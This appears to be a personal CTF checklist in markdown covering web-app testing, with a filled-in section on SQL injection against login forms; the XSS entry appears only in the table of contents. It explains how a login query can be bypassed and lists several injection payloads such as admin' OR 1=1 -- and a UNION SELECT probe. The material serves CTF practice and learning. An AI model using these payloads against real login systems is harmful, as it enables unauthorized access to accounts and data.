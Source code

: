 This file containes a checklist for myself to use in CTF challenge.

# Table of Content
1. [Web-app Testing](#webapp)
- [SQL Injection](#sqlinj)
- [XSS](#xss)
















<a name="webapp"></a>
# Web-app testing

<a name="sqlinj"></a>
## SQL Injection

### Login Form 
Normally, a POST request would takes two parameters (i.e. username and password) from the login form. Thus, the SQL command at the backend is look something like this:

```
SELECT * from TABLE where USERNAME='USERNAME' AND PASSWORD = 'PASSWORD';
```
Thus, if we type payload below into the username field, 

```
admin' OR 1=1 --
```
the whole SQL would becomes:

```
SELECT * from TABLE where USERNAME='admin' OR 1=1 --AND PASSWORD='PASSWORD';
```
Thus, as 1=1 is true and OR is used in the condition, also ```--``` has commented out the rest of the statement, the system would log us in as the first user from the Database. Also, as some SQL syntax varies in different system. Thus, you may also try something like below: 

```
admin' OR 1=1 #
admin" OR 1=1 #
admin" OR 1=1 --
```
Above two are basically doing the same thing. If success, it would log us in to the first user stored in its database.
```
 ' UNION SELECT 1 # 
```





